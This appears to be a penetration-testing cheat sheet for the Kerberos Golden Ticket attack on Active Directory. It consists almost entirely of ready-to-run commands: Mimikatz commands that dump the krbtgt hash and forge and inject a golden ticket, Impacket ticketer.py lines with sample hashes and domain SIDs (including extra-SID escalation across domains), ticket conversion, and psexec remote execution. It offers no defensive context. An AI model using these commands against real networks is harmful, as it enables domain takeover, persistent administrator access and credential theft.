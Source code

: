# Golden Ticket attack
Requires krbtgt password or NTLM hash, to forge a TGT.

once you have hash for krbtgt
Rewrite TGTs

impacket ticketer.py

## Get info - Mimikatz
```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Forge a Golden ticket - Mimikatz
```
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

## Swapping tickets between Linux-Windows
`python ticket_converter.py <LINUX.ccache> <WINDOWS.kirbi>`
`python ticket_converter.py <WINDOWS.kirbi> <LINUX.ccache>`

## Alternatively you can use ticketer from Impacket
`ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da`
`ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519`
`ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519`

```
export KRB5CCNAME=/home/user/ticket.ccache
cat $KRB5CCNAME
```

`psexec.py -k -no-pass -dc-ip <IP> AD/administrator@192.168.1.100`